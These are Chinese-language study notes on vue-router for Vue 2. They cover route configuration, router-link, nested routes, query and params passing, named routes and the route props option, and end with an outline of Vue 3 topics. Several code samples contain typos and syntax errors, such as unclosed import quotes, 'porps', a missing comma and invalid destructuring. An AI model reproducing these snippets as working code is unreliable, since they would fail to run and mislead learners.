- 多页面应用，指：有很多个`.html`文件的来回跳转切换的应用。


#### 路由**使用原理**：

1. 点击左边侧边栏某菜单
2. 改变 地址栏 端口号后面的路径
3. 路由器router寻找配置的路由route规则
4. 根据对应的 路径=>组件 的配置规则
5. 更新显示页面，致绿色的内容模块中

如下图：




- 生活中：路由器的作用，是：为了实现多台电脑上网
- 代码中：路由器的作用，是：为了实现单页面应用的页面跳转



**vue-router**：

vue的一个插件库，专门用来实现SAP应用。

#### SPA 应用：

单页Web应用(single page web application，SPA)

1. 整个应用**只有一个**完整的页面。
2. 点击页面中的导航链接不会刷新页面，只会做页面的**局部更新**。
3. 数据需要通过 ajax 请求获取

#### 路由的理解：

**什么是路由?**

1. 一个路由就是一组映射关系(key-value)
2. key为路径,value 可能是 function 或componente

**路由分类：**

- 后端路由：
  1. 理解：value 是 function,用于处理客户端提交的请求。
  2. 工作过程：服务器接收到一个请求时，根据**请求路径**找到匹配的**函数**来处理请求，返回响应数据。

- 前端路由:
  1. 理解：value 是 component，用于展示页面内容。
  2. 工作过程：当浏览器的路径改变时，对应的组件就会显示。



**路由：根据你的路径，由我决定展示对应的组件**



### 路由基本使用

在vue项目中使用路由，引入vue-router插件

```sh
npm i vue-router
```



**2022年2月7日以后，vue-router的默认版本，为4版本**

**vue-router4，只能用在vue3中**

**vue-router3，才能用在vue2中**

我们现在使用的是vue2，所以需要指定引入版本

```sh
npm i vue-router@3
```



安装完成后，在`main.js`中引入，并应用

```js
//引入插件
import VueRouter from 'vue-router'
//应用插件
Vue.use(VueRouter)
```

此时，在vm中，可以使用一个全新的配置项`router`

```js
new Vue(){
	...
	router:'' //router中的内容格式被严格控制，不允许随意写入字符串
	...
}
```

`main.js`同级位置，新建文件夹`router`文件夹。在该文件夹下，新增文件`index.js`。

`index.js`中拷入下方代码，用于创建整个应用的路由器。

```js
//该文件专门用于创建整个应用的路由器
import VueRouter from 'vue-router'
//引入组件
import About from'../components/About
import Home from'../components/Home

//创建并暴露一个路由器
export default new VueRouter({
    routes:[ //一组组key-value对儿
        {   path:'/about',
            component:About
		},
        {   path:'/home'
			component:Home
		},
	]
})
```

此时在`main.js`中赋值router配置项为刚创建的服务器

```js
//引入路由器
import router from./router

//创建vm
new Vue({
    ....
    router:router  //赋值配置项
})
```

保存所有文件，此时路由器已经配置完成，并开始工作。

地址导航栏能够看见`/#/`的符号。

路由器以及路由规则配置完成。

------

现在需要处理两个组件，能够触发路由跳转：

```html
<!--原始htm1中我们使用a标签实现页面的跳转-->
<a href="./about.htm">About</a>
<a href="./home.html">Home</a>
```

在路由中，我们使用vue-router库中，提供给我们开发者的一个标签`<router-link>`，触发跳转

```html
<!--to指想把路径后面改成什么样子-->
<!--active-class指想点击了哪一个菜单，哪个就高亮显示。直接修改地址栏，也可以对应触发高亮-->
<router-link to="/about"  active-class="active">About</router-link> 
<router-link to="/home" active-class="active">Home</router-link>
```

`<router-view>`设置页面内容展示的位置

```vue
<div class="panel">
    <div class="panel-body">
        <!--指定组件的呈现位置-->
        <router-view></router-view>
    </div>
</div>
```



- **一般组件 & 路由组件**

  正常写的，如`<Banner/>`为一般组件，在项目中我们通常放在components包下，进行管理

  通过`<router-link to="/ ">`写的为路由组件，在项目中我们通常放在pages包下，进行管理

- **路由组件的显示与隐藏**

  通过切换，“隐藏”了的路由组件，默认是被销毁掉的，需要的时候再去挂载。

​	在菜单间切换的时候，路由组件是被频繁的挂载和销毁的。

​	一个路由组件内容，在点击另一个菜单的时候，切换为另一个路由组件内容，该路由组件则被销毁

​	

- 每个路由组件中的`this`，多了两个属性`$route`，`$router`

​	每个组件都有自己的` $route`属性，里面存储着自己的路由信息。整个应用只有一个router，可以通过组件的 `$router` 属性获取到。

​	

这里注意：

​	哪个组件的this，打印出来的`$route`就是哪个组件的`path`，如下图


​	但是每个组件的this中，打印出来的`$router`是同一个



### 嵌套路由

嵌套路由的实现效果：

​	点击左侧的菜单，其右下的内容中有新的菜单，点击新的菜单，更改下方的内容。

如下图：

​	

`嵌套路由`，有时候我们也叫它`多级路由`，路径上体现为多级路径：`xxx/xxx`

嵌套路由的配置，使用`children`配置项：

```js
{
	path:'/home',
	component:Home,
	children:[
        {
            path:'new', //子路由路径前方不写斜杠'/',底层路由处理中会对子路径自动加上'/'
			component:New,
        }
    ]
}
```

组件中的配置，`to`路径注意写成完整路径

```vue
<router-link to="/home/news" active-class="active">New</router-link>
```

### 路由传参

**路由的query参数**

路由嵌套极限一般都在4-5层为极限，一般都在2-3层

只写一个组件Detail路由组件，通过传参来实现多个路由被点击使用时，对应显示的组件内容不同

路由组件有两个参数，其中`query`参数，和`ajax`中的`query`参数传参类似：

```vue
//路径后面用问号?的形式，多个参数之间用&间隔，例如：
<router-link to="/home/message/detail?id=666&title=hello">跳转
</router-link>
```

在唯一的Detail组件中，有一个属性`this.$route`能够得到这个组件相关的所有路由配置信息。在配置信息中，有一个属性`query`包含所有传递过来的参数及参数值。

在组件中获取参数，并页面显示渲染：

```vue
<ul>
	<li>消息编号：{{$route.query.id}}</li>
	<li>消息内容：{{$route.query.title}}</li>
</ul>
```

注意：

```vue
<!--要使参数值为变量，需要使用模版字符串标识符``，并且使用${}包裹变量-->
<router-link to="/home/message/detail?id=666&title=hello">
</router-link>

<!--例如，下面的写法：(字符串写法)-->
<router-link :to="`/home/message/detail?id=${m.id}&title=${m.title}`">
</router-link>

<!--或者，下面的写法：(对象写法)-->
<router-link :to="{
  path:'/home/message/detail',
      query:{
        id:m.id,
        title:m.title
      }
  }">
</router-link>
```

**路由的params参数**

路由组件的第二个参数，`params`参数，和`ajax`中的`params`参数传参也类似：

```js
//path配置项，路径后面，使用传参占位符
name:'about',
path:'/about/:id/:title',
component:About,
children:[{...}]
```

```vue
<!--跳转时传参紧跟路径-->
<router-link to="/home/message/about/666/hello"></router-link>
```

此时参数及参数值，出现在`this.$route`的`params`中

在组件中获取参数，并页面显示渲染：

```vue
<ul>
	<li>消息编号：{{$route.params.id}}</li>
	<li>消息内容：{{$route.params.title}}</li>
</ul>
```

同样的，将写死的传递参数位置改为变量取值的方式：

```vue
<!--传参写死-->
<router-link to="/home/message/about/666/hello"></router-link>

<!--传参改为变量：(字符串写法)-->
<router-link :to="`/home/message/about/${m.id}/${m.title}`"></router-link>

<!--或者，下面的写法：(对象写法)-->
<router-link :to="{
  	  name:'about',
      params:{
        id:m.id,
        title:m.title
      }
  }">
</router-link>

<!--注：params的对象传参写法，只能使用name来确定路由跳转位置，不能使用path-->
```


### 命名路由

给路由器取名字

1、作用：可以简化路由的跳转写法

2、示例：

```js
//命名使用name配置项
name:'about',
path:'/about',
component:About,
children:[{...}]
```

```vue
<!--简化跳转-->
<!--简化前：完整路径的2种写法-->
<router-link to="/home/message/about"></router-link>
<router-link :to="{path:'/home/message/about'}"></router-link>

<!--简化后：直接使用命名-->
<router-link :to="{name:'about'}"></router-link>
<!--这里注意，to属性，不注明使用name，默认是使用的path-->
```

```vue
<!--简化传递参数-->
<router-link :to="{
  	  name:'about',
      query:{
        id:m.id,
        title:m.title
      }
  }">
</router-link>
```

### 路由的props配置

路由中的一个全新的配置项`props`，用于路由更加方便的接受参数

**props的第一种写法：值为对象**

该对象中的所有key-value都会以props的形式传给Detail组件

```js
name:'...',
path:'...',
component:...,
children:[{...}],
//props的第一种写法：值为对象--------------------------------------------------
//该对象中的所有key-value都会以props的形式传给Detail组件
props:{  
   a:666,
   b:'hello'
}
```

在组件中接受并使用：

```vue
<ul>
	<li>消息编号：{{a}}</li>
	<li>消息内容：{{b}}</li>
</ul>
<script>
{
    ...,
    porps:['a','b']
}
</script>
```

这种写法比较少用，一般情况下，我们不直接在路由配置中写死数据进行传参。

所以我们了解第二种props的写法

**props的第二种写法：值为布尔值**

若布尔值为真，就会把该路由组件收到的所有params参数，以props的形式传递给Detail组件

```js
name:'...',
path:'/about/:id/:title',
component:...,
children:[{...}],
//props的第二种写法：值为布尔值--------------------------------------------------
props:true
```

在组件中接受并使用：

```vue
<ul>
	<li>消息编号：{{id}}</li>
	<li>消息内容：{{title}}</li>
</ul>
<script>
{
    ...,
    porps:['id','title']
}
</script>
```

**props的第三种写法：值为函数**

依赖return，返回的一定是一个对象，对象内的数据都会以props的形式传递给Detail组件

```js
name:'...',
path:'/about',
component:...,
children:[{...}],
//props的第三种写法：值为函数--------------------------------------------------
props:function(){}
//简写为
props(){
    return {id:'666',title:'hello'}
}
//路由的回调函数带有$route参数
props($route){
    return {id:$route.query.id,title:$route.query.title}
}
//通过解构赋值，可以简写为
props(query){
    return {id:query.id,title:query.title}
}
//或者
props(query:{id,title}){
    return {id:id,title:title}
}
//不过一般情况下，解构赋值的语句语义可读性和理解性不是很清楚，所以一般还是写回调函数$route的写法
```

### router-link的replace属性

编程式路由导航
缓存路由组件
两个新的生命周期钩子
全局前置 路由守卫
全局后置 路由守卫
独享路由守卫

组件内路由守卫
history模式与hash模式

## 39.Vue UI组件库(element-ui)

element-ui基本使用
element-ui按需引入

# 第五章：vue3

使用vue-cli创建工程

使用vite创建工程
分析工程结构
安装开发者工具
初识setup
re数 处理基本类型
re函数 处理对象类型
reactive函数
回顾Vue2的响应式原理

Vue3响应式原理proxy
Vue3响应式原理reflect
reactive对比ref
setup的两个注意点
computed计算属性
watch监视re定义的数据

watch监视reactive定义的数据

watch时value的问题

watchEffect函数
Vue3生命周期
自定义hook
toRef与toRefs
shallowReactive与shallowRef
readonly与shallowReadonly
toRaw与markRaw
customRef
provide与inject

响应式数据的判断
CompositionAPl的优势
Fragment组件
Teleport组件
Suspense组件
Vue3中其他的改变


